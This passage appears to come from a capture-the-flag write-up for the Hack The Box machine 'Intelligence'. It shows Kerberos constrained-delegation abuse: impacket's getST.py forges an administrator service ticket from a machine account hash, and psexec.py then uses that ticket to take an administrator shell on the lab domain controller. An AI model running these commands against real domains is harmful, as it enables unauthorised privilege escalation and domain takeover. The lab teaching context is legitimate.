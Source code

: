 ![allowed-to-delegate-bh-help](/assets/Intelligence/allowed-to-delegate-bh-help.jpg)

Let's go ahead and exploit this! :D

We will first request the ticket using [**impacket**](https://github.com/SecureAuthCorp/impacket)'s `getST.py` script

```
getST.py -dc-ip 10.10.10.248 -spn 'WWW/dc.intelligence.htb' -impersonate administrator intelligence.htb/'svc_int$' -hashes :6bf735e60852b92212d512a4deadcfea
```

![getting-admin-ticket](/assets/Intelligence/getting-admin-ticket.jpg)

The ticket is now saved to disk. We're going to export it to our environment and use it to own the box:

```
export KRB5CCNAME=<path/to/ticket>
psexec.py -k -no-pass intelligence.htb/administrator@dc.intelligence.htb
```
